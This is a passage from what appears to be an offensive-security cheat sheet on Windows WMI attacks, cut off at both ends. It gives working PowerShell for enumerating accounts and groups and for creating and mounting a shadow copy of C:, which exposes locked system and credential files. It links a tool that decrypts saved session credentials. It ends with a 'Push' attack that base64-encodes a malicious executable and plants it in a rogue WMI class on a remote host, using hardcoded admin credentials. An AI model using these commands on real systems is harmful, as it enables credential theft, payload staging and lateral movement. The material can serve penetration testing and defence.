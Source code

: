 ```
    
    Set-StrictMode -Version 'Latest'

    Use-CallerPreference -Cmdlet $PSCmdlet -Session $ExecutionContext.SessionState
    
    return Get-WmiObject Win32_UserAccount -Filter "Domain='$($env:ComputerName)' and Name='$Username'"
}
```

Listing local and domain groups
```
Get-WmiObject -Class Win32_Group
```

Create shadow copy of C: Drive
```
(Get-WmiObject -Class Win32_ShadowCopy -List).create("C:\", "ClientAccessible")
```

Create a symlink for the created shadow copy
```
$link = (Get-WmiObject -Class Win32_ShadowCopy).DeviceObject + "\"
cmd /c mklink /d C:\shadowcopy "$link"
```


## Exploitation
Extracts and decrypts saved session information for software typically used to access Unix systems. [Invoke-SessionGopher.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SessionGopher.ps1)


#### WMI Attacks – C2 Communication (WMI Class) – “Push” Attack
**First Step** - Push file contents to remote WMI repository
```
# Prep file to drop on remote system
$LocalFilePath = 'C:\Users\lutz\Documents\maliciousfile.exe'
$FileBytes = [IO.File]::ReadAllBytes($LocalFilePath)
$EncodedFileContentsToDrop = [Convert]::ToBase64String($FileBytes)
# Establish remote WMI connection
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'Administrator'
$Options.Password = 'user'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.2.10\root\default'
$Connection.Options = $Options
$Connection.Connect()
# "Push" file contents
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
$EvilClass['__CLASS'] = 'Win32_EvilClass'
$EvilClass.Properties.Add('EvilProperty', [Management.CimType]::String, $False)
$EvilClass.Properties['EvilProperty'].Value = $EncodedFileContentsToDrop
$EvilClass.Put()
```
